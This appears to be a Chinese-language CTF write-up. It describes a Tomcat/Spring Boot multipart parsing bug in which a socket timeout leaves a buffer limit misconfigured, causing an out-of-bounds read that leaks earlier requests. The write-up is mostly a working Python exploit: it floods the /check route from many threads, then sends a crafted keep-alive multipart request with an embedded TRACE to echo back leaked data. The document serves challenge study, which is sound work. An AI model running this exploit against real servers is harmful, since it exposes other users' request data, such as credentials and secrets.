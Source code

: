 1. 发送恶意构造的 multipart 的 "XXXX----boundary" 请求体，由 Springboot 自动调用在 org.apache.tomcat.util.http.fileupload.MultipartStream#readBoundary() 处进入 fill()；
2. 保持 socket 连接，fill() 抛出 SocketTimeoutException，当前线程中 ByteBuffer 的 limit 被错误配置，造成越界读；
3. org.apache.coyote.http11.Http11Processer#service() 由于 keep-alive，在越界读的数据上继续解析，该数据为先前包含 flag 的请求；
4. 构造合法的 TRACE 请求以回显。

为了使 flag 均匀分布在各个执行线程的 ByteBuffer 中，可以先多线程简单地并发一下 /check 路由。

```python
import socket

REMOTE = ('IP', PORT)

def connect(poc, persist = False):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(REMOTE)

    poc = poc.replace(b'\r', b'').replace(b'\n', b'\r\n')
    
    print(poc)
    s.sendall(poc)

    response = []
    while True:
        data = s.recv(1024)
        print(data)
        if not data: break
        response.append(data)
        if not persist: break
    data = b''.join(response).decode().rstrip()

    print(data)

    s.close()

import requests, time, threading
def req():
    try:
        print(requests.post(f'http://{REMOTE[0]}:{REMOTE[1]}/check', headers={'User-Agent': '', 'Accept': '*/*', 'Accept-Encoding': '*'}).text)
    except:
        pass
for _ in range(200): # If not working, increase requesting attempts
    threading.Thread(target=req).start()
    time.sleep(0.1) # Adjust based on your actual RTT

input('Press Any Key To Continue')

poc = b'''POST /check HTTP/1.0
Host: localhost
Connection: close
Content-Length: 0

'''
connect(poc)
input('Press Any Key To Continue')

poc = b'''POST /aaa HTTP/1.1
Host: localhost
Connection: keep-alive
Content-Type: multipart/form-data; boundary=--abc
Content-Length: 30

 TRACE / HTTP/1.1\r\nX: ----abc'''
connect(poc, True)
```